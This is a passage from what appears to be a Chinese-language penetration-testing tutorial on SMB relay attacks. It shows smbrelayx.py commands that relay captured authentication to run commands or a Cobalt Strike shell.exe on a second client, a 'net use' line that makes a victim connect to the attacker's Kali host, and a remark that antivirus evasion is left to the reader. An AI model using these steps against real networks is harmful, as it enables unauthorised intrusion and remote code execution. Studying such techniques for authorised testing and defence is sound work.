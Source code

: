 首先还是先关闭 `responder.conf` 中的 `SMB` 和 `http` ，让` smbrelayx.py` 脚本来完成任务，这里我提前生成了一个 CS 的 `shell.exe` （当然免杀需自行处理），不要 shell 的话完全可以省略 payload ，直接：

```bash
cd /usr/share/responder/tools # CD 到smb重放工具目录下
smbrelayx.py -h <Client2 ip> -c <命令>
```

**CS上线**

```bash
cd /usr/share/responder/tools # CD 到smb重放工具目录下
smbrelayx.py -h <Client2 ip> -e ./shell.exe
```

让任意主机访问这个攻击者精心构造好的 SMB 服务器,此时在 192.168.1.177 命令行下键入

```bash
net use \\<kali IP>
```

如果输入过几次后出现缓存，DC不发包后可以尝试在文件管理器中访问

![](img/22.png)
